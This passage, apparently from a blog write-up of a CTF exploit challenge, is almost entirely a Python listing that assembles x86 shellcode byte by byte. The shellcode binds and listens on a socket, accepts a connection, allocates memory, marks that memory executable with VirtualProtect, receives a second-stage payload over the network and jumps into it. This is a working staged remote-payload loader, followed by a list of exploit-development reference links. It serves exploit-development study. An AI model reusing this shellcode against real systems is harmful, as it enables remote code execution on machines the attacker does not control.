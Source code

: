 ``` python
# Find sockaddr
block1 += "\x89\xD9"                           # MOV ECX, EBX
block1 += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`
block1 += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the `bind` call
block1 += "\x6A\x10"                           # PUSH 0x10
block1 += "\x51"                               # PUSH ECX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `bind`
block1 += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `listen`
block1 += "\xB3\x5C"                           # MOV BL, 0x5C
# prepare the parameters on the stack for the `listen` call
block1 += "\x6A\x7F"                           # PUSH 0x7F
block1 += "\x57"                               # PUSH EDI
# invoke the call to `listen`
block1 += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `accept`
block1 += "\xB3\x24"                           # MOV BL, 0x24
# prepare the parameters on the stack for the `accept` call
block1 += "\x57"                               # PUSH EDI
# invoke the call to `accept`
block1 += "\xFF\xD3"                           # CALL EBX
# prepare for the malloc call and call it
block1 += "\x8B\xF8"                           # MOV EDI, EAX
block1 += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
block1 += "\x8A\xE0"                           # MOV AH, AL
block1 += "\x50"                               # PUSH EAX
block1 += "\xFF\xD3"                           # CALL EBX
block1 += "\xEB\x9D"                           # JMP BLOCK2


block2  = ""
# invoke the call to `malloc`
block2 += "\x59\x51"                           # POP ECX, PUSH ECX
# save the memory handle, and push it up ready for later use
block2 += "\x8B\xF0"                           # MOV ESI, EAX
block2 += "\x50"                               # PUSH EAX
# set up virtual protect call
block2 += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
block2 += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
block2 += "\x50"                               # PUSH EAX
block2 += "\x6A\x40"                           # PUSH 0x40
block2 += "\x51"                               # PUSH ECX
block2 += "\x56"                               # PUSH ESI
# call virtual protect
block2 += "\xFF\xD3"                           # CALL EBX
# prep the call for recv
block2 += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
block2 += "\x57"                               # PUSH EDI
# jump to tucked block
block2 += "\xEB\x05"                           # JMP <5 bytes forward>

tucked  = ""
# call recv
tucked += "\xFF\x13"                           # CALL [EBX]
# invoke the payload
tucked += "\xFF\xE6"                           # JMP ESI

command  = ""
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux